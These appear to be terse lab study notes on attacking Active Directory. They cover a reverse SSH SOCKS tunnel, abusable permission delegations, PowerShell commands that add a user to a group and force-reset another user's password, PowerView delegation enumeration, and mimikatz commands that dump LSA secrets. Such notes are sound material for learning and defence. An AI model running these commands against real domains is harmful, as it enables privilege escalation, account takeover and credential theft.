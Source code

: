 

Dynamic Port Forwarding and SOCKS

ssh tunneluser@1.1.1.1 -R 9050 -N




# Exploiting Permission Delegation 


    ForceChangePassword: We have the ability to set the user's current password without knowing their current password.
    AddMembers: We have the ability to add users (including our own account), groups or computers to the target group.
    GenericAll: We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
    GenericWrite: We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
    WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
    WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
    AllExtendedRights: We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.



 Add-ADGroupMember "IT Support" -Members "sharon.khan"
 Get-ADGroupMember -Identity "IT Support"

 ForceChangePassword
 Get-ADGroupMember -Identity "Tier 2 Admins"

change password
 $Password = ConvertTo-SecureString "P@ssw0rd1337" -AsPlainText -Force 
 Set-ADAccountPassword -Identity "t2_melanie.davies" -Reset -NewPassword $Password 
 force update
gpupdate /force



# Exploiting Kerberos Delegation 

TRUSTED_FOR_DELEGATION flag

msDS-AllowedToActOnBehalfOfOtherIdentity

Import-Module C:\Tools\PowerView.ps1 
Get-NetUser -TrustedToAuth


mimikatz
token::elevate
lsadump::secrets
